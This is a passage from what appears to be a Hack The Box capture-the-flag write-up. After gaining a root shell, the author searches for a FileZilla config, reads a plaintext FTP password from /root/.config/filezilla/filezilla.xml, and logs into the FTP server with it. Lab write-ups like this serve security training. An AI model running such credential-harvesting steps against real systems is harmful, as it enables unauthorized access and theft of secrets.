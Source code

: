 ## Post Root

Even though I had the root shell I was interested about the potential filezilla dump provided in the bugtracker.

```
find / -type d -name filezilla 2>/dev/null
/root/.config/filezilla
```

Now that I was able to view the dump I checked the directory and found a file with some credentials:
```
# ls -al /root/.config/filezilla
drwxr-xr-x 2 root root 4096 Sep 11  2020 .
drwxr-xr-x 3 root root 4096 Jan 25  2020 ..
-rw-r--r-- 1 root root  646 Sep 11  2020 filezilla.xml

# cat /root/.config/filezilla/filezilla.xml
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <RecentServers>
        <Server>
            <Host>10.10.10.46</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
        </Server>
    </RecentServers>
</FileZilla3>
```

This appears to be some kind of FTP server on the local network, and some credentials with which to logon:
- Host: 10.10.10.46
- User: ftpuser
- Pass: mc@F1l3ZilL4


I connected to the FTP server using the credentials:
```
kali@kali:~/workspace/hackthebox/archetype$ ftp 10.10.10.46
Connected to 10.10.10.46.
220 (vsFTPd 3.0.3)
Name (10.10.10.46:kali): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```
